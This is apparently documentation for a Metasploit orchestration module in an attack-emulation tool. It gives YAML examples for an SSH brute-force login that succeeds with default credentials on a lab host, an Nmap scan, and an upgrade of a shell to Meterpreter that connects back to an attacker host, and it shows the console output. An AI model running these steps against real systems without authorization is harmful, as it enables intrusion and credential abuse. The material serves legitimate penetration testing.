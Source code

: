 
## Description
Module orchestrates [Metasploit Framework](https://github.com/rapid7/metasploit-framework).

## Prerequisites
Metasploit must be accessible from Worker it will be executed on.

## Input parameters

=== "Simple"

    ### `module_name`
    Name of Metasploit module.
    
    | Name          | Type   | Required | Default value | Example value                        |
    |---------------|--------|----------|---------------|--------------------------------------|
    | `module_name` | string | &check;  |               | `unix/irc/unreal_ircd_3281_backdoor` |
    
    ### `datastore`
    Datastore options (variables) to use for the execution.  
    Basically an equivalent to `set OPTION value`.
    
    | Name        | Type   | Required | Default value | Example value            |
    |-------------|--------|----------|---------------|--------------------------|
    | `datastore` | object | &cross;  |               | `{"RHOST": "127.0.0.1"}` |

=== "Custom"

    ### `commands`
    Custom set of commands to execute in an order in the Metasploit console.
    
    | Name       | Type            | Required | Default value | Example value                     |
    |------------|-----------------|----------|---------------|-----------------------------------|
    | `commands` | array\[string\] | &check;  |               | `["use multi/handler", "run -z"]` |

### `timeout`
Number of seconds to wait before the module execution will be terminated.

| Name      | Type    | Required | Default value | Example value |
|-----------|---------|----------|---------------|---------------|
| `timeout` | integer | &cross;  |               | `300`         |

## Examples

### SSH login module
Input:
```yaml
my-step:
  module: metasploit
  arguments:
    module_name: scanner/ssh/ssh_login
    datastore:
      RHOSTS: {{ target }}
      USERNAME: vagrant
      PASSWORD: vagrant

```

Output:
```json
{
  "result": "ok", 
  "output": "VERBOSE => True\nBRUTEFORCE_SPEED => 5\nBLANK_PASSWORDS => false\nUSER_AS_PASS => false\nDB_ALL_CREDS => false\nDB_ALL_USERS => false\nDB_ALL_PASS => false\nDB_SKIP_EXISTING => none\nSTOP_ON_SUCCESS => false\nREMOVE_USER_FILE => false\nREMOVE_PASS_FILE => false\nREMOVE_USERPASS_FILE => false\nTRANSITION_DELAY => 0\nMaxGuessesPerService => 0\nMaxMinutesPerService => 0\nMaxGuessesPerUser => 0\nCreateSession => true\nAutoVerifySession => true\nTHREADS => 1\nShowProgress => true\nShowProgressPercent => 10\nRPORT => 22\nSSH_IDENT => SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3\nSSH_TIMEOUT => 30\nSSH_DEBUG => false\nGatherProof => true\nRHOSTS => 192.168.56.51\nUSERNAME => vagrant\nPASSWORD => vagrant\nDisablePayloadHandler => True\n[*] 192.168.56.51:22 - Starting bruteforce\n[+] 192.168.56.51:22 - Success: 'vagrant:vagrant' 'uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant) Linux vagrant-ubuntu-trusty-64 3.13.0-170-generic #220-Ubuntu SMP Thu May 9 12:40:49 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux '\n[!] No active DB -- Credential data will not be saved!\n[*] SSH session 1 opened (192.168.56.50:36169 -> 192.168.56.51:22) at 2022-08-04 17:03:56 +0200\n[*] Scanned 1 of 1 hosts (100% complete)\n[*] Auxiliary module execution completed\n",
  "serialized_output": {"session_id": 1} 
}
```

### Running Nmap
```yaml
my-step:
  module: metasploit
  arguments:
    commands:
      - db_nmap --top-ports 100 {{ target }}

```

### Upgrade shell session
```yaml
my-step:
  module: metasploit
  arguments:
    module_name: multi/manage/shell_to_meterpreter
    datastore:
      LHOST: {{ attacker_host }}
      SESSION: 1

```

## Troubleshooting
So far so good.

### Session types

Metasploit Framework currently supports two types of sessions.

The first is a shell session, in which you can run shell commands without limitations.

The second is called Meterpreter session. It allows you to use it's provided commands, such as `ifconfig` or `sysinfo`.
To run a command in a shell, you need to use the `execute` command with the `-f`, `-i`, and `-a` options (`execute -f <command> -i -a <arguments>`).  
In some cases, the command execution may fail. Before creating a plan, make sure it works for your target system/exploit and a correct payload is used.

## Output serialization
Only the session ID is serialized.

`serialized_output` contains:

| Parameter name | Parameter description                        |
|----------------|----------------------------------------------|
| `session_id`   | ID of the created session (only if created). |
